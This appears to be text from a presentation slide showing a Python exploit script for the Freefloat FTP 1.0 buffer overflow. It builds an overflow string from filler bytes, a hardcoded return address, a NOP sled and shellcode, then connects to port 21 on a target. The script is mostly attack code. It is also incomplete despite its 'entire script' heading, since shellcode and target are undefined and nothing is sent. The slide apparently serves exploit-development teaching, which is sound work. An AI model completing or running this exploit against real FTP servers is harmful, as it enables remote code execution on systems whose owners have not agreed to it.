

# ENTIRE EXPLOIT SCRIPT
ret = struct.pack('<L', 0x7C874413)
padding = "\x90" * 150
crash = "\x41" * 246 + ret.decode() + padding + shellcode
print(f'[*] Freefloat FTP 1.0 Any Non Implemented Command Buffer Overflow\n'
      f'[*] Author: Craig Freyman (@cd1zz)\n'
      f'[*] Connecting to {target}')
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    sock.connect((target, 21))
except OSError:
    print(f'[-] Connection to {target} failed!')
    sys.exit(0)